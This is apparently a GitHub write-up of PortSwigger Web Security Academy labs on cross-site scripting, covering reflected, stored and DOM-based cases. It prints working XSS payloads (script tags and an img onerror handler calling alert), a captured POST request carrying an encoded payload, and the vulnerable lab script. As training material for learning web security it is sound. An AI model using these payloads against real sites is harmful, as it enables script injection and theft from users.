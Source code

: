 ### Reflected XSS into HTML context with nothing encoded

This lab contains a simple reflected cross-site scripting vulnerability in the search functionality.
To solve the lab, perform a cross-site scripting attack that calls the alert function.

![Blog Page](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/Portswigger/images/Cross-Site-Scripting/XSS-1.png)

Enter Payload in Search Box `"><script>alert("document.domain")`

Alert will popup with domain name.

![Blog Page XSS](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/Portswigger/images/Cross-Site-Scripting/XSS-2.png)

---

### Stored XSS into HTML context with nothing encoded

This lab contains a stored cross-site scripting vulnerability in the comment functionality.
To solve this lab, submit a comment that calls the alert function when the blog post is viewed.

![Blog Post Comment Section](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/Portswigger/images/Cross-Site-Scripting/XSS-3.png)

No need Burp Suite to Solve this Lab but We can use if we want.

Capture the request using Burp Suite.

Payload: `"><script>alert(document.domain);</script>`

```
POST /post/comment HTTP/1.1
Host: ac841f9c1fd9ea60c0291fea003500a2.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 185
Origin: https://ac841f9c1fd9ea60c0291fea003500a2.web-security-academy.net
DNT: 1
Connection: close
Referer: https://ac841f9c1fd9ea60c0291fea003500a2.web-security-academy.net/post?postId=2
Cookie: session=nvcsC6Bs0gnxD37ywSj3XJcq9l8tfbOP
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-GPC: 1

csrf=bG4fJRPYljHJkbsBJnlQbxArwGklxTXq&postId=2&comment=%22%3E%3Cscript%3Ealert%28document.domain%29%3B%3C%2Fscript%3E&name=Test&email=test%40test.com&website=https%3A%2F%2Fwww.tests.com

```

![Alert Popup](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/Portswigger/images/Cross-Site-Scripting/XSS-4.png)

---

### DOM XSS in document.write sink using source location.search

This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.

To solve this lab, perform a cross-site scripting attack that calls the alert function.

![Blog Page](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/Portswigger/images/Cross-Site-Scripting/XSS-5.png)

Enter any test we will notice that that text include in image.

Payload `"><script>alert(document.domain);</script>`

![Alert Popup](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/Portswigger/images/Cross-Site-Scripting/XSS-6.png)

---

### DOM XSS in document.write sink using source location.search inside a select element

This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search which you can control using the website URL. The data is enclosed within a select element.

To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the alert function.

![Store Page](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/Portswigger/images/Cross-Site-Scripting/XSS-7.png)

Enter Payload https://acac1f3a1ed422a1c0fe737c00d8008f.web-security-academy.net/product?productId=1&storeId=%3Cscript%3Ealert(1)%3C/script%3E

```html
<script>
  var stores = ["London", "Paris", "Milan"];
  var store = new URLSearchParams(window.location.search).get("storeId");
  document.write('<select name="storeId">');
  if (store) {
    document.write("<option selected>" + store + "</option>");
  }
  for (var i = 0; i < stores.length; i++) {
    if (stores[i] === store) {
      continue;
    }
    document.write("<option>" + stores[i] + "</option>");
  }
  document.write("</select>");
</script>
```

![Alert Popup](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/Portswigger/images/Cross-Site-Scripting/XSS-8.png)

---

### DOM XSS in innerHTML sink using source location.search

This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search.

To solve this lab, perform a cross-site scripting attack that calls the alert function.

![Blog Page](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/Portswigger/images/Cross-Site-Scripting/XSS-9.png)

<img src="1" onerror="alert(1)">

![Blog Page Alert](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/Portswigger/images/Cross-Site-Scripting/XSS-10.png)

---
